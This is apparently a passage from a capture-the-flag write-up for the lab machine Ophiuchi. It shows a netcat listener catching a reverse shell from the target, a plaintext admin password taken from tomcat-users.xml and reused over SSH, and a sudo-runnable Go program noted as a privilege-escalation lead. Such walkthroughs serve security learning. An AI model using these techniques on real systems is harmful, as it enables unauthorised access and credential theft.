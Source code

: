 And catch the reverse shell

```bash
$ sudo rlwrap nc -lvnp 82
listening on [any] 82 ...
connect to [10.10.14.204] from (UNKNOWN) [10.10.10.227] 36388
/bin/sh: 0: can't access tty; job control turned off
$ whoami
tomcat
```

Success! We now have a working shell!!

Since this is a tomcat instance, the first thing I checked was `conf/tomcat-users.xml` for the password

```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

Checking that via SSH, we have successful login with `admin:whythereisalimit`!!

# Privesc

It looks like there's an interesting tool we may execute

```
User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

So we can run the `index.go` program, looking at it, it contains the following interesting lines:

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```
